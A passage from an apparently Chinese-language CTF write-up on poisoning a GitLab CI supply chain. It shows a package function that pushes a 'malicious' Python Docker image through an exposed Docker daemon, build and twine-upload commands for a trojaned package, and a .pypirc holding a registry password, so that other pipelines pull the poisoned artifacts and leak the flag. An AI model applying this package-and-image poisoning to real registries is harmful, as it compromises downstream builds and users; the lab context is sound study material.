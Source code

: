 ```plain
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name
```

之后就是 build 成包。要先去把已有的包删掉：

[![](assets/1699929835-0bacb07fbba005542af8570a542dc47a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109134606-46db96f6-7ec3-1.png)

再 build 并上传

```plain
python3.10 -m build ./
python3.10 -m twine upload -r gitlab dist/* --verbose
```

`.pypirc`（放到自己的用户目录下，即`~/`下面）：

```plain
#distutils]
index-servers =
    gitlab

[gitlab]
repository = http://localhost:4000/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi
username = alice
password = 998b5802ec365e17665d832f3384e975
```

之后剩下两个项目每 10 分钟自动执行一次 pipeline，就可以盗取 flag 了。

awesome-app 的 pipeline 会安装一些东西需要十几分钟的时间，nest-of-gold 的 pipeline 会直接报错，这似乎是代码本身的问题，gitlab 登 root 上去把这行 pipeline 删掉就行。经过测试似乎执行 pipeline 的时候挂全局魔法执行的会变快。

